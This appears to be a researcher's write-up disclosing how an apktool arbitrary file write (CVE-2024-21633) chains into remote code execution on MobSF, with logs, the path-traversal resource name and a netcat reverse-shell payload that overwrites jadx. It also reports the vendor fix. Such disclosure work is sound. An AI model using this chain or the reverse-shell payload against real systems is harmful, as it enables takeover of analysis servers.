



# MobSF Remote code execution (via CVE-2024-21633)

I have found an arbitrary file write in apktool and reported via [github security advisory](https://github.com/iBotPeaches/Apktool/security/advisories/GHSA-2hqv-2xv4-5h5w). I was aware that many projects were relied upon or dependent to apktool but after the [publish of advisory](https://github.com/iBotPeaches/Apktool/security/advisories/GHSA-2hqv-2xv4-5h5w) and [fix](https://github.com/iBotPeaches/Apktool/pull/3484) not many seem to be noticed or cared about it. I decided to check its impact and exploitability in some of the big dependants, I have then started with MobSF.

The vulnerability allows us to write anything at a relative path to "${decode target path}/res/", the biggest impact would be getting an RCE. But there is a catch, written file is not an executable. 

I had these 2 ideas in my mind before diving in:
- We might aim to overwrite shell init files like .bashrc/.zshrc etc. but this requires either "decode target path" to be under user folder  so we can target it like: "../../.bashrc"  or we need know (or bruteforce) user name to have a target like "../../../../username/.bashrc", a nice thing here is an application can have 0xFFFF (65536) different raw resource names because resource ids looks like 0x7F0B1234 (1 byte package identifier usually 0x7F, 1 byte type identifier (e.g raw, drawable), 2 bytes of resource identifier). In our case if we assume that MobSF runs in docker we already know the user name, MobSF. However, after overwriting file, we have to wait for a shell to be spawned, which is not guaranteed.
- Create a cronjob to run a malicious script, requires the application to have root privileges
  

But what if we're just lucky enough to have an app that changes permissions of a file to executable? And even more lucky to have it run afterwards? And it all needs to happen after execution of apktool. That's the exact situation with the MobSF. MobSF uses jadx as a part of its static analysis, it calls jadx via subprocess, but right before that it changes the permission of jadx to executable. 

Log excerpt where apktool, chmod and jadx are respectively called:
```
[INFO] 07/Jan/2024 20:44:16 - Getting AndroidManifest.xml from APK
[INFO] 07/Jan/2024 20:44:16 - Converting AXML to XML
[INFO] 07/Jan/2024 20:44:16 - executed command: /jdk-20.0.2/bin/java -jar -Djdk.util.zip.disableZip64ExtraFieldValidation=true /home/mobsf/Mobile-Security-Framework-MobSF/mobsf/StaticAnalyzer/tools/apktool_2.9.1.jar --match-original --frame-path /tmp -f -s d /home/mobsf/.MobSF/uploads/6cae29cb89b3aac3890c1d4d21fcc756/6cae29cb89b3aac3890c1d4d21fcc756.apk -o /home/mobsf/.MobSF/uploads/6cae29cb89b3aac3890c1d4d21fcc756/apktool_out
.
.
.
[INFO] 07/Jan/2024 20:44:20 - Decompiling to Java with jadx
[INFO] 07/Jan/2024 20:44:20 - executed command: chmod +x /home/mobsf/Mobile-Security-Framework-MobSF/mobsf/StaticAnalyzer/tools/jadx/bin/jadx 
[INFO] 07/Jan/2024 20:44:20 - executed command: /home/mobsf/Mobile-Security-Framework-MobSF/mobsf/StaticAnalyzer/tools/jadx/bin/jadx -ds /home/mobsf/.MobSF/uploads/6cae29cb89b3aac3890c1d4d21fcc756/java_source/ -q -r --show-bad-code /home/mobsf/.MobSF/uploads/6cae29cb89b3aac3890c1d4d21fcc756/6cae29cb89b3aac3890c1d4d21fcc756.apk
```

We will use jadx as a target, but we need to have relative path of jadx to res folder. We can get that by using os.path.relpath() in python function. 

Our resource base folder is "/home/mobsf/.MobSF/uploads/680b420ade61b64ce7c024a2ed6bc94d/apktool_out/" 

We want to overwrite jadx binary at path: "/home/mobsf/Mobile-Security-Framework-MobSF/mobsf/StaticAnalyzer/tools/jadx/bin/jadx"
```python
import os
jadx_path = "/home/mobsf/Mobile-Security-Framework-MobSF/mobsf/StaticAnalyzer/tools/jadx/bin/jadx"
res_base_path = "/home/mobsf/.MobSF/uploads/680b420ade61b64ce7c024a2ed6bc94d/apktool_out/res"
os.path.relpath(jadx_path, res_base_path)
>>> '../../../../Mobile-Security-Framework-MobSF/mobsf/StaticAnalyzer/tools/jadx/bin/jadx'
```
Our payload will be in res/raw/jadx
```bash
#!/bin/bash
nc host.docker.internal 9001 -e sh
```
Resource name will be "../../../../Mobile-Security-Framework-MobSF/mobsf/StaticAnalyzer/tools/jadx/bin/jadx"

Upload the apk and wait for the jadx to be executed, we'll get a shell on our nc listener.

Bingo!


I then have reported this to MobSF team via email, got a prompt reply and they have [fixed](https://github.com/MobSF/Mobile-Security-Framework-MobSF/commit/19c1b55c2c59596f2d43439926c9dc976cbeaec4) it by updating to newer apktool version, but behavior of making jadx executable and running it afterwards is still there. I would rather have set permission fixed in advance and kept the directory non-writable.

Follow for more! [@0x33c0unt](https://twitter.com/cybaqkebm)